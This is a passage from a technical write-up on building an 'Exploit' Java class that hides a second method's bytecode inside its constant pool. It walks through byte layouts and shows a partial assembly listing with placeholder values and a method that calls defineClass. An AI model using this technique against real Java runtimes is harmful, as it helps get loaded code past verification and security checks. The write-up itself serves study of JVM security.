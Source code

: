 Next, we skip eight bytes (the low byte of `max_locals`, the four bytes of `code_length`, and the first three bytes of the bytecode, `2A 2B 2C`), landing us in the middle of the bytecode. Luckily, bytecode is highly flexible in this respect. The tag byte `05` corresponds to the `iconst_2` instruction in bytecode, which just pushes the integer 2 onto the operand stack. We can then follow it with a `pop` instruction (`57`), to undo it. This means that we can insert `05 57` anywhere in the middle of bytecode (as long as it isn’t the middle of a multibyte instruction). Furthermore, we can also insert `nop` instructions (`00`) anywhere to line things up better if necessary. In this case, we’ll insert one `nop` at the end.

### Recap

We now have `0001 [this_cls] [super_cls] 0000 0000 0002 0001 [sneakyLoad_utf] [sneakyLoad_desc_utf] 0005 [Code_utf] 0000001C 0042 0500 00000010 2A 2B 2C 0557 03 2C BE 2D B6[defineClass_method] 0557 B0 00 0000 0000 $other_attrs $method2 0000`

Note that `code_length` changed from `0000000B` to `00000010` because we added five instructions (two `iconst_2 pop` pairs and one `nop`). Likewise, `attribute_length` changed from `00000015` to `0000001C`.

We also have the following constraints on the constant pool that we’ll have to satisfy later (where `**` can be anything):

```
[super_cls] = **05
[sneakyLoad_utf] = 03**


```

Our exploit class is starting to take shape. So far, we have something like this, where “evilstring” is the giant null byte laden string with exact contents to be determined later, and the `-`s in the integer constants are placeholders to be filled in later. Note here that the integer constants contain all the bytes we just worked out _except_ for the tag bytes themselves.

```
.class public Exploit
.super java/lang/Object

.method public woodlelyDoodlely : ()I
    .code stack 2000 locals 10
        ldc_w "evilstring"

        ldc2_w 0x------0001------L
        ldc2_w 0x0000000000020001L
        ldc_w  0x------00
        ldc2_w 0x----0000001C0042L
        ldc2_w 0x00000000102A2B2CL
        ldc2_w 0x57032CBE2DB6----L
        ldc2_w 0x57B0000000000000L

        iconst_0
        ireturn
    .end code
.end method
.end class


```
